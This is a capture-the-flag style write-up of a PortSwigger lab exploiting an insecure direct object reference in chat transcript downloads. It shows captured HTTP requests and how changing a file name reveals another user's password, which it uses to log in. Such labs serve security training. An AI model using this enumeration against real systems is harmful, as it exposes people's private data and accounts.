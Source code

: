 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6b580e31-a010-42f7-b6cb-b54a0c852486)


## Solution :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa9efa73-2760-4c17-bc5b-daa4ed2b2660)


The lab page contains a `Live chat` link which allows us to send messages and also view transcripts,


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4936661c-7b0f-4212-b9a4-61a72f8059ef)

For testing, first I tried to send a message.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa1046b4-1411-4934-9af7-f8eacda50b0e)

Now when I click `transcript`, it disconnects from the chat and downloads the chat transcript.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0ee07a40-764f-4ac3-a281-37cb44c61453)

*Opening the transcript*

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/19f7238c-db6d-489d-90be-3d131a74ecbe)

Notice that **The transcript downloaded was 2.txt and why not 1.txt?.  Maybe there was previous chats which contains  carlos's password**

Lets repeat the same process but capture the request when clicking on transcript button.

The browser sends 2 request,

**POST request to /download-transcript  **

```http
POST /download-transcript HTTP/2
Host: 0a93006303669dea816ad90100780044.web-security-academy.net
Cookie: session=3pDWJmTTJsAkBH4iRJC3adMvr27d6Cyq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20881831844699883562007729330
Content-Length: 421
Origin: https://0a93006303669dea816ad90100780044.web-security-academy.net
Referer: https://0a93006303669dea816ad90100780044.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


-----------------------------20881831844699883562007729330

Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>You: Hi<br/>Hal Pline: What did your last slave machine die of?<br/>Hal Pline: You know I can hear you from further away, no need to be in my personal space<br/>DISCONNECTED: -- Chat has ended --

-----------------------------20881831844699883562007729330--
```


**GET request to /download-transcript which downloads the file to our system -**

```http
GET /download-transcript/3.txt HTTP/2
Host: 0a93006303669dea816ad90100780044.web-security-academy.net
Cookie: session=3pDWJmTTJsAkBH4iRJC3adMvr27d6Cyq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a93006303669dea816ad90100780044.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

It retreives a static file `3.txt` , lets change it to `1.txt`.

As we guessed, the first chat **1.txt** contains the chat which has carlos's password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6e6345ae-305e-4edc-b25c-3aacdcc8041a)

Pasword - `tlyc9lxwaf51hql4rjin`

Now login as carlos, to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3c2b57d6-bac6-4151-b515-f80fc3d132d8)


























